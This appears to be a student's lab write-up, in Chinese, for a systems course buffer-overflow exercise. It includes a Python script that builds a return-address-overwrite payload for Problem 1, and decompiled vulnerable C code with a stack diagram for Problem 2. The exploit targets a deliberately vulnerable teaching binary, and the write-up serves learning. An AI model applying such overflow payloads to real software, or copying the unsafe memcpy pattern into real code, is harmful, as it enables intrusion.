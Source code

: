 ``` python
padding = b"A" * 16                                 # 前导串，无意义
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00" # func1 的地址，用于改变 func 函数的返回地址
payload = padding + func1_address
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans1.txt")
```

- **结果**：

![problem1_AC](./imgs/problem1_result.png)

### Problem 2
- **分析**：

本题与上一题同理，只是更需要一些灵活性而不是死板的套公式。大体的思路依然是：首先找哪里可能导致栈溢出，其次再找哪里可以输出 “Yes!I like ICS!” 这个字符串。依然先翻译可能用到的函数：

``` c
void func(char *s) {
  char buffer[8];
  memcpy(buffer, s, 56);
}

void func2(int x) {
  if (x != 1016) printf("I think that you should give me the right number!\n");
  else printf("Yes!I like ICS!\n");
  exit(0);
}

int main(int argc, char *argv[]) {
    char payload[268];
	// 从 argv[1] 读取字符串到 payload，并输出一些提示信息
    func(payload);
	// 处理错误分支
}
```

观察到和上一题一样 func 同样开辟了一个大小为 8 字节的数组，用来拷贝最大长度为 268 的 payload，同时这个函数也~~很贴心的~~使用了一个存在危险的函数 memcpy，而且还非常不小心的拷贝了 56 个字节这也就导致了溢出的危险，此时它的栈区模型如下图：

```stack
                                       +-----------------+
                                       |  return address |
                                       +-----------------+
                                       |     old ebp     |
                              ebp ---> +-----------------+
                                       |     buffer      |
                  rdi = ebp - 0x8 ---> +-----------------+
                                       |                 |
                                       |     payload     |
                 rsi = ebp - 0x18 ---> +-----------------+     
                                       |                 |
                                       |                 |
                 esp = ebp - 0x20 ---> +-----------------+
```

